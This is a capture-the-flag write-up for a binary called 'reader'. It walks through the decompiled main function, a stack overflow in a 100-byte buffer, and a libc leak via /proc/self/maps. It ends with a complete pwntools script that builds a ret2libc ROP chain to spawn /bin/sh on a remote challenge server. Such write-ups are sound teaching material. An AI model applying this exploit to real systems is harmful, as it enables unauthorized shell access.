

# File info 



From which we can see the file is normal ELF, the stack is not executable and it's Position Independent.
We are also given a libc.so.6 file , before continuing we think of ret2libc attack. For this we might use *pwninit* to initialize the elf with the given libc version


# Code Analysis 

First looking at the functions there is a *win()* function but it does nothing.
The main:

```C

undefined8 main(void)

{
  size_t sVar1;
  char *pcVar2;
  char local_78 [100];
  int local_14;
  FILE *local_10;
  
  setup();
  while( true ) {
    printf("give me file to read: ");
    read(0,local_78,0x100);
    sVar1 = strcspn(local_78,"\n");
    local_78[sVar1] = '\0';
    pcVar2 = strstr(local_78,"flag");
    if (pcVar2 != (char *)0x0) {
      puts("can\'t read this file ");
      return 1;
    }
    local_10 = fopen(local_78,"r");
    if (local_10 == (FILE *)0x0) break;
    while (local_14 = fgetc(local_10), local_14 != -1) {
      putchar(local_14);
    }
  }
  puts("can\'t open this file ");
  return 1;
}
```

This code prompts the user to input a filename, checks if the filename contains "flag" (denying access if true), and attempts to open and display the file's contents character by character. If the file can't be opened, it prints an error message and exits. It loops indefinitely, continually asking for files to read unless there’s an error.

**strcspn** is a C standard library function that searches for the first occurrence of any character from a specified set of characters in a given string and returns the number of characters before this first occurrence.
**strstr** is a C standard library function that searches for the first occurrence of a substring in a given string.

conclustion: we can't read the file containing flag in it , now lets think why we are given a libc ? 
clearly there is no room to leak any address here, so we cant directly leak libc address 

# Interesting Files 

### side note 
From previous experience in a CTF, I needed to read the environment variables where the flag was, but the vuln was LFI 
so searching for that I found /proc/self/environ which yields the environemnt variables 
note that the *self* here points to the current process ID. 

If you are familiar with gdb-pwndbg you must know that we can get the addresses of the process using vmmap command : 


and there is a file that yields exact same result which is **/proc/self/maps** 
so we will use it as input : 


and here is our libc address 


# Exploit 

1- We need to calculate the padding until rsp and that would be 120 using cyclic and pwndbg .

2- Extracting the libc address from /proc/self/maps using some for of regex. 
3- Using ROP() .

```python
#!/usr/bin/env python3
from pwn import *

exe = ELF("./reader_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.39.so")
context.binary = exe

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("3.255.127.32",30118)
    return r

def main():
    r = conn()
  

   
    r.sendline(b'/proc/self/maps')

    sleep(2) # so that all the content of /proc/self/maps load

    r.recvuntil(b'give me file to read: ')  

    
    maps_content = r.recv()

    
    maps_content = maps_content.decode('utf-8', errors='ignore')

    
    match = re.search(r'^([0-9a-f]+)-[0-9a-f]+ .*libc\.so\.6$', maps_content, re.MULTILINE)  # regex to get libc address 
    if match:
        libc_base = int(match.group(1), 16)
        print(f"libc base address: 0x{libc_base:x}")
        
        
        libc.address = libc_base
        

        
    else:
        print("Could not find libc base address")
        exit(0)

    libc.address = libc_base

    rop = ROP(libc)  # instead of searching for the gadgets manually

    SYSTEM = libc.sym['system']
    BINSH = next(libc.search(b"/bin/sh\x00"))

    payload = flat ({ 
            120 : [
                rop.ret.address,
                rop.rdi.address,
                BINSH,
                SYSTEM]})

    r.sendline(payload)
    r.interactive()

if __name__ == "__main__":
    main()
    ```


